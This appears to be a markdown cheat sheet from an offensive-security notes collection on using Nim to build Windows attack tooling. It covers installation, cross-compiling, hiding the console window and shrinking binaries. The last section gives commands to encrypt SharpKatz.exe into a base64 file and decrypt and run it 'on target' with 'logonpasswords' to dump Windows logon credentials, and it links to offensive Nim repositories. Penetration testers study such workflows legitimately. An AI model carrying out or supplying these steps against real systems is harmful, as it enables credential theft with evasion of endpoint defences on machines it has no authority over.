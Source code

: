 # Nim




## Install

Windows:

* [https://nim-lang.org/install_windows.html](https://nim-lang.org/install_windows.html)
* [https://git-scm.com/download/win](https://git-scm.com/download/win)

Linux:

```
$ sudo apt install mingw-w64 -y
$ curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```



## Compile

General:

```
Nim > nim c program.nim
```

To not popup the Nim binaries console window:

```
Nim > nim c --app:gui program.nim
```

For the best size:

```
Nim > nim c -d:danger -d:strip --opt:size --passc=-flto --passl=-flto program.nim
```

For Windows on Linux:

```
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc program.nim
```




## Execute C# Assemblies

* [https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim)
* [https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/)
* [https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim)

Dependencies:

```
Nim > nimble install winim nimcrypto
```

Compile on Linux:

```
$ nim c encrypt_assembly.nim
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passc=-flto --passl=-flto encrypted_assembly_loader.nim
```

Create encrypted base64 file:

```
$ ./encrypted_assembly_loader 'Passw0rd!' SharpKatz.exe b64.txt
```

Decrypt and run it on target:

```
Cmd > .\encrypted_assembly_loader.exe Passw0rd! b64.txt --Command logonpasswords
```
